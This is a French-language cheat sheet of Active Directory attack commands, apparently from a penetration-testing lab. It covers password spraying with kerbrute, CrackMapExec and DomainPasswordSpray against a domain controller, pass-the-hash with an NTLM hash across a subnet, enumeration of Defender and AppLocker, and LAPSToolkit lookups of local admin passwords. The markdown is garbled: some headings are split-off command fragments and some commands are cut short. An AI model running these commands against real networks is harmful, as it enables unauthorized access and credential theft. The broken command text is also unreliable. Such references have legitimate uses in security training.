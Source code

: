 ```shell
### Utilise kerbrute et une liste d'utilisateurs (valid_users.txt) pour effectuer une attaque de pulvérisation de mot de passe contre un domaine Windows cible depuis un hôte basé sur Linux.
```bash
`kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`
```shell
### grep +
```bash
`sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 \
```shell
### Utilise CrackMapExec pour valider un ensemble d'identifiants depuis un hôte basé sur Linux.
```bash
`sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`
```shell
### grep +
```bash
`sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf \
```shell
### Utilisé pour importer l'outil basé sur PowerShell DomainPasswordSpray.ps1 depuis un hôte basé sur Windows.
```bash
`Import-Module .\DomainPasswordSpray.ps1`
```shell
### Effectue une attaque de pulvérisation de mot de passe et enregistre (-OutFile) les résultats dans un fichier spécifié (spray_success) depuis un hôte basé sur Windows.
```bash
`Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`
```shell
# Énumération de Contrôles de Sécurité et Active Directory

## Table des matières

1. [Énumération des Contrôles de Sécurité](#énumération-des-contrôles-de-sécurité)
2. [Énumération avec Identifiants](#énumération-avec-identifiants)
3. [Énumération par "Living Off the Land"](#énumération-par-living-off-the-land)

## Énumération des Contrôles de Sécurité

### Cmdlet PowerShell utilisé pour vérifier le statut de Windows Defender Anti-Virus depuis un hôte basé sur Windows.
```bash
`Get-MpComputerStatus`
```shell
### select -ExpandProperty RuleCollections
```bash
`Get-AppLockerPolicy -Effective \
```shell
### Script PowerShell utilisé pour découvrir le Mode de Langage PowerShell utilisé sur un hôte basé sur Windows. Exécuté depuis un hôte basé sur Windows.
```bash
`$ExecutionContext.SessionState.LanguageMode`
```shell
### Une fonction LAPSToolkit qui découvre les Groupes Délégués LAPS depuis un hôte basé sur Windows.
```bash
`Find-LAPSDelegatedGroups`
```shell
### Une fonction LAPSTookit qui vérifie les droits sur chaque ordinateur avec LAPS activé pour tous les groupes ayant un accès en lecture et les utilisateurs avec Tous les Droits Étendus. Exécutée depuis un hôte basé sur Windows.
```bash
`Find-AdmPwdExtendedRights`
```shell
### Une fonction LAPSToolkit qui recherche les ordinateurs qui ont LAPS activé, découvre l'expiration des mots de passe et peut découvrir les mots de passe aléatoires. Exécutée depuis un hôte basé sur Windows.
```